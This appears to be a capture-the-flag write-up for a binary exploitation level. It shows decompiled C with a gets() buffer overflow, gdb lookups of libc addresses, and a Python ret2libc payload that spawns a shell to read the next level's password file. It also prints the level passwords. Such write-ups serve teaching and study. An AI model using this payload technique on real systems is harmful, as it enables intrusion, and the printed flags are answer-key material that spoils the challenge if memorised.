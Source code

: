 # Level 2
*pass: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*

```
void main(void)

{
  p();
  return;
}
```

```
void p(void)
{
  uint unaff_retaddr;
  undefined local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```
```
(gdb) info proc map
...
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
```

```
(gdb) info funct system
...
0xb7e6b060  system
...
(gdb) info funct exit
...
0x080483d0  _exit
...
```
p() return address : 0x0804853e\
`/bin/sh` address : 0xb7f8cc58\
`system` address : 0xb7e6b060\
`exit` address : 0x080483d0

```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"' > /tmp/level2
$ cat /tmp/level2 - | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

